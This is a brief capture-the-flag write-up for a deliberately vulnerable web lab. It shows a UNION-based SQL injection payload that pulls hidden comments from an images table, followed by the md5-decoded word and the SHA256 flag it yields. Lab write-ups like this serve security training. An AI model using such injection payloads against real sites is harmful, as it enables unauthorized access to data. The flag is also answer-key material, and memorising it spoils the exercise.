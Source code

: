 # SQL Injection

Following our first SQL injection attack, it allowed us to get a lot of useful info, notably about the following table:

|list_images||||
|:-:|:-:|:-:|:-:|
|id|url|title|comment|

The searchimg page we are now on apparently allows us to search for images based off of their ids. However, we can only see their title and url, not the comment. Guess we have to do some SQL Injection again :D
```
ID: 1 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
```
The following SQL Injection allows us to see the url and comment of every line in the list_images table.
```
1=2 UNION ALL SELECT url, comment FROM list_images
```
We find one very interesting comment as follows:
```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

## Flag

Following the instructions, we get the word `albatroz` which hashed in SHA256 gives us:
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```